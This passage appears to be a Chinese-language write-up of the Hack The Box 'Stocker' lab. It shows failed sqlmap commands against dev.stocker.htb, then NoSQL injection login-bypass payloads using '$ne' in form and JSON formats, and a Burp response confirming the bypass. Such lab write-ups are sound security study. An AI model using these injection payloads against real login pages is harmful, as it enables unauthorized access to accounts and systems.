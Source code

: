 试了这两种语法都没结果……
```bash
└─$ sqlmap -r login-post.txt -p username

└─$ sqlmap -u 'http://dev.stocker.htb/login' --cookie='s%3AqGZ3cfqla8iZ8Z0kCgb0XFSH8yU28ZmZ.DHCZS1Pt2nPi34yO9KLryJeTtuIHKbjeBTVSVWxiCGs' --data 'username=admin&password=admin' -p "username,password" --method POST
```
 
*后来了解到似乎sqlmap似乎不能测试NoSQLi？而对于NoSQLi另有个[NoSQLMap](https://github.com/codingo/NoSQLMap) 0.0*  
*不懂了……然后看了眼官方论坛说[IppSec解说的Shoppy](https://www.youtube.com/watch?v=AJc53DUdt1M&t=220s)十分具有参考性 0.0*

根据[IppSec解说的Shoppy](https://www.youtube.com/watch?v=AJc53DUdt1M&t=220s)，看了眼wappalyzer插件，发现**运行Node.js应用，以及Express框架**。  
这里似乎是一样的情况，[NoSQLi](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

顺便记录几个知识点：

- `username[$ne]=toto&password[$ne]=toto` 这种在username用数组的，或者就单纯是字符串(scalar)的，一般是PHP、Apache
- 而npm服务器、Node.js就一般将报头 `Content-Type` 的 `application/x-www-form-urlencoded` 改为 `application/json`，然后用json格式的payload：`{"username": {"$ne": null}, "password": {"$ne": null} }`
    - 也可在改完报头后，先试试请求正常的json数据，或者少放一个json值，确认一下服务器是否解析json

#### NoSQLi绕过登陆

根据上述操作，看Burp的响应似乎是成功了：
```http
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 27 May 2023 14:44:49 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
X-Powered-By: Express
Location: /stock
Vary: Accept

<p>Found. Redirecting to <a href="/stock">/stock</a></p>
```

绕过登陆后会重定向到"/stock"，这个目录我们之前也枚举到过。  
而由于cookie值固定，我们现在应该算是已登录的状态了。  
用浏览器访问一下 `http://dev.stocker.htb/stock`，成功进入：  